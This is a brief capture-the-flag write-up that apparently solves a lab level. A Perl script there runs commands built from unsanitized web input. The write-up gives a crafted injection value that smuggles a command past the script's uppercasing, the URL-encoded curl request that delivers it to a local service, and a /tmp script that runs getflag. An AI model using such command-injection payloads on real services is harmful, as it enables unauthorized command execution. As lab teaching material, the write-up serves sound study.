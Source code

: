 perl script that run commands with unsanitized user input :

Every char will get converted to uppercase, to we can really use commands...

We could however use something like that to make the perl script execute /tmp/xd instead of reading it !!
```
'x=">.;."'
```
We need to encode that correctly : https://www.urlencoder.org/
give us :
```
curl 'localhost:4646?x=%22%3E.%3B.%22'
```

whith this is /tmp/xd:
```
#!/bin/sh

getflag > /tmp/y
chmod 666 /tmp/y
```

